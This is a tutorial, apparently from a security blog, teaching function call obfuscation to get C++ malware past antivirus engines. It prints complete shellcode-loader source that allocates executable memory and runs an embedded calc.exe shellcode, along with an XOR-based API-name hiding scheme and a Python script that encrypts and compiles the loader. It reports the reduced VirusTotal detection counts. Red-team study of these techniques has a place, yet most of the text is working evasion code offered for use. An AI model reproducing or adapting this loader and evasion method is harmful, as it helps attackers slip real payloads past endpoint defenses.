







\newpage
\subsection{AV engines evasion for C++ simple malware - part 2}

﷽

{width="80%"}    

This is the second part of the tutorial, firstly, I recommend that you study the [first](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html) part.

In this section we will study function call obfuscation.
So what is this? Why malware developers and red teamers need to learn it?

Let's consider our `evil.exe` from part 1 in virustotal:   

[https://www.virustotal.com/gui/file/c7393080957780bb88f7ab1fa2d19bdd1d99e9808efbfaf7989e1e15fd9587ca/detection](https://www.virustotal.com/gui/file/c7393080957780bb88f7ab1fa2d19bdd1d99e9808efbfaf7989e1e15fd9587ca/detection)

and go to the details tab:   

{width="80%"}    

Every PE module like `.exe` and `.dll` usually uses external functions. So when it is running, it will call every functions implemented in an external DLLs which will be mapped into a process memory to make this functions available to the process code.

AV industry analyze most kind of external DLLs and functions are used by the malware. It can be a good indicator if this binary is malicious or not. So AV engine analyzes a PE file on disk by looking the into its import address.

Of course this method is not bullet proof and can generate some false positives but it is a known to work in some cases and is widely used by AV engines.

So what we as a malware developers can do about it? This is where function call obfuscation comes into play. **Function Call Obfuscation** is a method of hiding your DLLs and external functions that will be called a during runtime. To do that we can use standard Windows API functions called `GetModuleHandle` and `GetProcAddress`. The former returns a handled a specifiied DLL and later allows you to get a memory address of the function you need and which is exported from that DLL.

So let me give you an example. So let's say your program needs to call a function called `HackAndWin` which is exported in a DLL named `hacker.dll`. So first you call `GetModuleHandle`, and then you can call `GetProcAddress` with an argument of `HackAndWin` function and in return you get in address of that function:
```cpp
hack = GetProcAddress(
GetModuleHandle("hacker.dll"), "HackAndWin");
```

So what is important here? Is that if you compile your code, compiler will not include `hacker.dll` into import address table. So AV engine will not be able to see that during static analysis.

Let's see how we can practically use this technique. Let's take a look at the source coude of our first malware from [part 1](http://127.0.0.1:4000/tutorial/2021/09/04/simple-malware-av-evasion.html):
```cpp
/*
cpp implementation malware 
example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, 
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, 
  PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE) my_payload_mem, 
    0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}
```

So this code contains very basic logic for executing payload. So in this case, for simplicity, it's not encrypted payload, it's plain payload.    

{width="80%"}    

Let's compile it:    

{width="80%"}    

and run to make sure that it works:    

{width="80%"}    

So let's take a look into import address table.    

```bash
objdump -x -D evil.exe | less
```

{width="80%"}    

and as you can see our program is uses `KERNEL32.dll` and import all this functions:    

{width="80%"}    

and some of them are used in our code:    

{width="80%"}    

So let's get read of `VirtualAlloc`. So how we can do that?
First of all we need to find a declaration `VirtualAlloc`:    

{width="80%"}    

and just a make sure that it is implemented in a `Kernel32.dll`:    

{width="80%"}    

So let's create a global variable called `VirtualAlloc`, but it has to be a pointer `pVirtualAlloc` this variable will store the address to `VirtualAlloc`:    

{width="80%"}    

And now we need to get this address via `GetProcAddress`, and we need to change the call `VirtualAlloc` to `pVirtualAlloc`:    

{width="80%"}    

Then let's go to compile it. And see again import address table:    

```bash
objdump -x -D evil.exe | less
```

{width="80%"}    

So no `VirtualAlloc` in import address table.
Looks good. But, there is a caveat. When we try to extract all the strings from the our binary we will see that `VirtualAlloc` string is still there. Let's do it.
run:   

```bash
strings -n 8 evil.exe
```

{width="80%"}    

as you can see it is here. The reason is that we are using the stream in cleartext when we are calling `GetProcAddress`.    

So what we can do about it?   
The way is we can remove that. We can used XOR function for encrypt/decrypt, we used before, so let's do that.
Firstly, add XOR function to our `evil.cpp` malware source code:    

{width="80%"}    

For that we will need encryption key and some string. And let's say string as `cVirtualAlloc` and modify our code:     

{width="80%"}    

add XOR decryption:    

{width="80%"}    

So, the final version of our malware code is:    

```cpp
/*
cpp implementation malware 
example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

// XOR encrypted VirtualAlloc
unsigned char cVirtualAlloc[] = { };
unsigned int cVirtualAllocLen = sizeof(cVirtualAlloc);

// encrypt/decrypt key
char mySecretKey[] = "meowmeow";

// LPVOID VirtualAlloc(
//   LPVOID lpAddress,
//   SIZE_T dwSize,
//   DWORD  flAllocationType,
//   DWORD  flProtect
// );

LPVOID (WINAPI * pVirtualAlloc)(
    LPVOID lpAddress, 
    SIZE_T dwSize, 
    DWORD flAllocationType, 
    DWORD flProtect
);

void XOR(char * data, size_t data_len, char * key, 
size_t key_len) {
  int j;
  j = 0;
  for (int i = 0; i < data_len; i++) {
    if (j == key_len - 1) j = 0;
    data[i] = data[i] ^ key[j];
    j++;
  }
}

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  XOR((char *) cVirtualAlloc, cVirtualAllocLen, 
  mySecretKey, sizeof(mySecretKey));

  // Allocate a memory buffer for payload
  pVirtualAlloc = GetProcAddress(
  GetModuleHandle("kernel32.dll"), cVirtualAlloc);

  my_payload_mem = pVirtualAlloc(0, my_payload_len, 
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, 
  my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, 
  PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE) my_payload_mem, 
    0, 0, 0);
	WaitForSingleObject(th, -1);
  }
  return 0;
}

```

And use python script to XOR encrypt our function name and replace:    

```python
import sys
import os
import hashlib
import string

## XOR function to encrypt data
def xor(data, key):
    key = str(key)
    l = len(key)
    output_str = ""

    for i in range(len(data)):
        current = data[i]
        current_key = key[i % len(key)]
        ordd = lambda x: x if isinstance(x, int) else ord(x)
        output_str += chr(ordd(current) ^ ord(current_key))
    return output_str

## encrypting
def xor_encrypt(data, key):
    ciphertext = xor(data, key)
    ciphertext = '{ 0x' + ', 0x'.
    join(hex(ord(x))[2:] for x in ciphertext) + ' };'
    print (ciphertext)
    return ciphertext, key

## key for encrypt/decrypt
plaintext = "VirtualAlloc"
my_secret_key = "meowmeow"

## encrypt VirtualAlloc
ciphertext, p_key = xor_encrypt(plaintext, my_secret_key)

## open and replace our payload in C++ code
tmp = open("evil.cpp", "rt")
data = tmp.read()
data = data.replace('unsigned char cVirtualAlloc[] = { };', 
'unsigned char cVirtualAlloc[] = ' + ciphertext)
tmp.close()
tmp = open("evil-enc.cpp", "w+")
tmp.write(data)
tmp.close()

## compile
try:
    cmd = "x86_64-w64-mingw32-gcc evil-enc.cpp"
    cmd += " -o evil.exe -s -ffunction-sections"
    cmd += " -fdata-sections -Wno-write-strings"
    cmd += " -fno-exceptions -fmerge-all-constants"
    cmd += " -static-libstdc++ -static-libgcc"
    cmd += " >/dev/null 2>&1"
    os.system(cmd)
except:
    print ("error compiling malware template :(")
    sys.exit()
else:
    print (cmd)
    print ("successfully compiled :)")
```

Compile and check.
```bash
strings -n 8 evil.exe | grep "Virtual"
```

{width="80%"}    

and as you can see no `VirtualAlloc` in strings check.
This is how you can actually obfuscate any function in your code. It can be `VirtualProtect` or `RtlMoveMemory`, etc.

run:    

{width="80%"}    

everything is ok.

Let's go to upload our `evil.exe` to virustotal:    

{width="80%"}    

[https://www.virustotal.com/gui/file/bf21d0af617f1bad81ea178963d70602340d85145b96aba330018259bd02fe56/detection](https://www.virustotal.com/gui/file/bf21d0af617f1bad81ea178963d70602340d85145b96aba330018259bd02fe56/detection)

**So, 22 of of 66 AV engines detect our file as malicious.**

Other functions can be obfuscated to reduce the number of AV engines that detect our malware.
For better result we can combine payload encryption with random key and obfuscate functions with another keys etc.

[Source code in Github](https://github.com/cocomelonc/2021-09-06-av-evasion-2)

- [VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)    
- [RtlMoveMemory](https://docs.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory)    
- [VirtualProtect](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)    
- [WaitForSingleObject](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)    
- [CreateThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)    
- [XOR](https://en.wikipedia.org/wiki/XOR_cipher)    

As a result of my research, my project [peekaboo](https://github.com/cocomelonc/peekaboo) appeared.   
Simple undetectable shellcode and code injector launcher example.
